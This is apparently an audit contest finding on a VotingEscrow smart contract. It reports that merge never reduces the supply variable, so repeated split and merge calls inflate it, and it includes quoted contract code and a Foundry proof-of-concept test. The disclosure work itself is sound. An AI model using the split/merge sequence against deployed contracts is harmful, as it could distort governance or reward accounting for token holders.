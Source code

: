 Gentle Green Mongoose

Medium

# `VotingEscrow` Can Have Inflated Supply

## Summary
The `supply` storage variable can be inflated due to the `merge` function not properly updating it. Any function that would rely on this would have unexpected behavior.

## Vulnerability Detail
When a user goes to `split` there NFT in `VotingEscrow` it will:
1. First do some checks if the user is allowed and checks their input variables
2. Call `_remove_from` to remove the old data from the initial NFT and supply
3. Call `_mint` to create the new NFT
4. Finally call `_deposit_for` to update for the new NFT
```solidity
    function split(uint _tokenId,uint amount) external {
        
        // check permission and vote
        require(attachments[_tokenId] == 0 && !voted[_tokenId], "attached");
        require(_isApprovedOrOwner(msg.sender, _tokenId));
        require(!blockedSplit[_tokenId],"split blocked");

        // save old data and totalWeight
        address _to = idToOwner[_tokenId];
        LockedBalance memory _locked = locked[_tokenId];
        uint end = _locked.end;
        uint value = uint(int256(_locked.amount));
        require(value > amount,"amount > value");

        // save end
        uint unlock_time = end;
        require(unlock_time > block.timestamp, 'Can only lock until time in the future');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        // remove old data
        _remove_from(_tokenId, amount, unlock_time, _locked);
        
        // mint 
        ++tokenId;
        uint _newTokenId = tokenId;
        _mint(_to, _newTokenId);
        _deposit_for(_newTokenId, amount, unlock_time, locked[_newTokenId], DepositType.SPLIT_TYPE);
    }
```
When a user goes to merge their two NFTs if will do the following:
1. First do some checks if the user is allowed and checks their `from` and `to` NFT data
2. Call `_burn` to remove the `_from` NFT
3. Finally call `_deposit_for` to update for the `_to` NFT
```solidity
    function merge(uint _from, uint _to) external {
        require(attachments[_from] == 0 && !voted[_from], "attached");
        require(_from != _to);
        require(_isApprovedOrOwner(msg.sender, _from));
        require(_isApprovedOrOwner(msg.sender, _to));

        LockedBalance memory _locked0 = locked[_from];
        LockedBalance memory _locked1 = locked[_to];
        uint value0 = uint(int256(_locked0.amount));//locked0 amount
        uint end = _locked0.end >= _locked1.end ? _locked0.end : _locked1.end;

        locked[_from] = LockedBalance(0, 0);
        _checkpoint(_from, _locked0, LockedBalance(0, 0));
        _burn(_from);//smell burning right one and is end times updating correctly
        _deposit_for(_to, value0, end, _locked1, DepositType.MERGE_TYPE);
    }
```
The major difference between the two is that `merge` does not call `_remove_from` which is not directly required. However, there is a part of `_remove_from` that is important, which is updating `supply`. Thus, `merge` is only adding to the `supply` variable with `_deposit_for`. Leading to these two function flows to not be asymmetric when updating the `supply`. This would allow anyone to easily inflate the `supply` variable by:
1. Calling `split`
2. Calling `merge`
3. Repeating steps 1 and 2 

## Impact
Add this POC to [VotingEscrow.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/VotingEscrow.t.sol):
```solidity
    function testSplitMerge() public {
        flowDaiPair.approve(address(escrow), 10 * TOKEN_1);
        escrow.create_lock(10 * TOKEN_1, 7 * 24 * 3600);
        vm.roll(block.number + 1); // fwd 1 block because escrow.balanceOfNFT() returns 0 in same block

        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 3 * TOKEN_1;
        amounts[1] = 7 * TOKEN_1;

        escrow.split(1, amounts[1]);

        (int256 amount1, uint256 duration1) = escrow.locked(1);
        (int256 amount2, uint256 duration2) = escrow.locked(2);

        assertEq(amount1, int256(3 * TOKEN_1));
        assertEq(amount2, int256(7 * TOKEN_1));
        assertEq(duration1, duration2);

        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint supplyB = escrow.supply();
        escrow.merge(1, 2);
        uint supplyA = escrow.supply();
        (int256 amount, uint256 duration) = escrow.locked(2);
        assertEq(supplyB, supplyA);
        assertEq(amount, int256(10 * TOKEN_1));
        assertEq(duration, duration2);
    }
```

## Code Snippet

[VotingEscrow.sol#L1195](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1195)

## Tool used

Manual Review

## Recommendation

Consider properly updated the `supply` storage variable when merging two NFT tokens.